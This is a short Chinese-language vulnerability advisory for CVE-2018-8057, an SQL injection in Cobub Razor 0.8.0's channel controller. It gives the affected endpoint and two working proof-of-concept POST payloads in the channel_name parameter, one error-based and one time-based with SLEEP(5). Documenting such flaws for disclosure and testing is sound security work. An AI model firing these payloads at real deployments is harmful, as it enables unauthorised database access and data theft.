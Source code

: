 # CVE-2018-8057 Cobub Razor 0.8.0 存在SQL注入漏洞

## 一、漏洞简介

Cobub Razor 0.8.0存在SQL注入漏洞，“/application/controllers/manage/channel.php”页面的“channel_name”及“platform”参数过滤不严格导致存在SQL注入漏洞。Cobub Razor是一个在github上开源的系统，漏洞发现者已经将漏洞信息通过issues告知作者。

## 二、漏洞影响

Cobub Razor 0.8.0

## 三、复现过程

POC


```bash
> http://url/index.php?/manage/channel/addchannel  

> POST data:  

>  1.channel_name=test" AND (SELECT 1700 FROM(SELECT COUNT(*),CONCAT(0x7171706b71,(SELECT (ELT(1700=1700,1))),0x71786a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JQon&platform=1  

>  2.channel_name=test" AND SLEEP(5)-- NklJ&platform=1
```